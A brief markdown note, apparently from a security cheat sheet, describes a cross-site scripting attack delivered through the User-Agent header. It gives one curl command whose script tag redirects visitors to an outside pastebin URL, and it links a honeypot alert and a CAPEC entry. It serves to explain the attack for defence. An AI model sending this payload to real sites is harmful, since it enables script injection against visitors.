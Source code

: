 # XSS
-----



## User-Agent Field XSS Attack
-----------------------------

Example:

   curl https://target.host -H "User-Agent: <SCRIPT>window.location='http://pastebin.com/GsHvJXED'</SCRIPT>" 


More info:
* https://www.trustwave.com/Resources/SpiderLabs-Blog/-Honeypot-Alert--User-Agent-Field-XSS-Attacks/
* http://capec.mitre.org/data/definitions/106.html

